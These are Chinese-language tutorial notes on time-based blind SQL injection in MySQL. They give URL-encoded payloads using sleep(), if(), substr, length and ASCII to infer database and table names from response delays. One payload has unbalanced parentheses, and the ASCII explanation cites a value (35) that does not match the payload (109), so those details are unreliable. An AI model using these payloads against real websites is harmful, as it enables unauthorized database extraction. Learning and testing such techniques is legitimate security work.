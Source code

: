 



#### 时间注入

> （ps.通过burp suite的Cluster bomb爆破就不说了）==
> ==时间盲注和boolean盲注很像的，但是时间盲注的特点之一是所用的时间比较长，==

访问能时间盲注的网址时，，和boolean注入类似的成功返回yes(完整页面),失败返回no(不完整页面),与boolean不同之处在于：时间盲注是利用sleep()或benchmark()等函数让mysql的执行时间变长，多与if(expr1,expr2,expr3)结合使用，此if语句的含义是：如果expr1是TRUE，返回expr2,否则返回expr3

> 注意：不知道为什么，我能够`length(database())`，猜解数据库的长度，但是却没法猜解返回的表名的长度

> substr("字符串",1,1)与limit 0,1的区别是：substr是从1开始的。limit是从0开始的



总的来说，时间注入有三种方式：

1. 通过`substr`

```
' and if(substr((select database(),1,1)='a',sleep(5),1)%23
```

> 数据库库名首字母是否为`a`

2. 通过`length`

   ```
   ' and if(length(database())>1,sleep(5),1)%23			
   ```

   > 判断数据库长度



​	3.通过`ASCII()`

```
' and if(ASCII(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=109,sleep(5),1)%23
```

> 判断 查询数据库中第一个表的表名首字符ASCII是否为`35`（也就是`#`）

> 注意：ascii码查询时候，只能操作单个字符。因为操作多个字符的话无法识别到底从哪里断句。
>
> 例如：`select * from test_table where ascii(name)=112;`这种只能查询单个字符。







首先测试是否能时间注入

```
' and sleep(5)%23s
```



1. 猜解数据库长度
```
' and if (length(database())>1,sleep(5),1)%23				//使用#的url编码来注释
```
上面语句的含义为：如果数据库库名长度大于1，则mysql查询休眠5秒，否则查询1(PS.两者用burp suite抓包可以看到明显的时间差，正常的一般只用得到几十毫秒)
2. 猜解数据库名
```
and if (substr(database(),1,1)='s',sleep(5),1)
```

